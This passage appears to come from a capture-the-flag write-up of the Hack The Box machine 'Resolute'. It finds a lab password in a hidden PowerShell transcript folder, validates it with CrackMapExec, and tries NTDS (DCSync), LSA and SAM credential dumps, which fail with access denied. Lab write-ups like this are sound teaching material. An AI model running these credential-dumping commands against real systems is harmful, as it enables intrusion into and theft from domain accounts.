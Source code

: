 Got stuck and looked at the Walkthrough. It said to look for hidden folders under `C:\`. The [video by ippsec](https://www.youtube.com/watch?v=8KJebvmd1Fk) showed his winpeas picked up the hidden folder, but mine didn't. So strange. If I had done my manual analysis, I could have found it with the command `reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\Transcription`

```powershell
dir /a:h
 Volume in drive C has no label.
 Volume Serial Number is D1AC-5AF6

 Directory of C:\

07/09/2023  07:46 AM    <DIR>          $RECYCLE.BIN
11/20/2016  06:59 PM           389,408 bootmgr
07/16/2016  06:10 AM                 1 BOOTNXT
09/25/2019  10:17 AM    <JUNCTION>     Documents and Settings [C:\Users]
07/09/2023  06:24 AM       402,653,184 pagefile.sys
09/25/2019  10:48 AM    <DIR>          ProgramData
12/03/2019  07:32 AM    <DIR>          PSTranscripts
09/25/2019  10:17 AM    <DIR>          Recovery
09/25/2019  06:25 AM    <DIR>          System Volume Information
               3 File(s)    403,042,593 bytes
               6 Dir(s)   2,459,471,872 bytes free
```

There is a `PSTranscripts` folder that wasn't visible with a normal `dir` command. Investigating inside that folder (having to use `dir /a:h` for every listing inside), we eventually find a file called `C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`. Within it, there appear to be #credentials for the user Ryan:

```powershell
cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

- `ryan:Serv3r4Admin4cc123!`

Let's check if we can use these credentials:

```sh
❯ cme smb resolute -u ryan -p 'Serv3r4Admin4cc123!'
SMB         resolute        445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         resolute        445    RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
```

Oh, shoot, Ryan appears to be an administrator! Let's see if we can dump the NTDS file using DCSync:

```sh
# try DCSync
❯ cme smb resolute.megabank.local -u ryan -p 'Serv3r4Admin4cc123!' --ntds
SMB         resolute        445    RESOLUTE         [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

# try LSA dump
❯ cme smb resolute.megabank.local -u ryan -p 'Serv3r4Admin4cc123!' --lsa
# same error

# try SAM dump
❯ cme smb resolute.megabank.local -u ryan -p 'Serv3r4Admin4cc123!' --sam
# same error
```
